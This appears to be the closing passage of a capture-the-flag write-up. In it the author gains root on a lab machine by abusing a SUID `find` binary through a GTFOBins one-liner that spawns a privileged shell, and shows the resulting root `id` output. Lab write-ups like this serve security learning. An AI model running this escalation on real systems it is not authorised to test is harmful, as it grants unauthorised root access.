So we can use the `find` command to escalate our privileges! Haha! GO TO HELL, CHALLENGE CREATOR! LET'S ESCALATE OUR PRIVILEGES! GTFOBINS to the rescue:

```bash
stoner@Vulnerable:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
```
Ultimately, I got the root privileges and read the root flag!

## Conclusion

Though I tried and learned a lot of things, the creator of the challenge was a bit annoying. There were some unnecessary rabbit holes. I hate them!


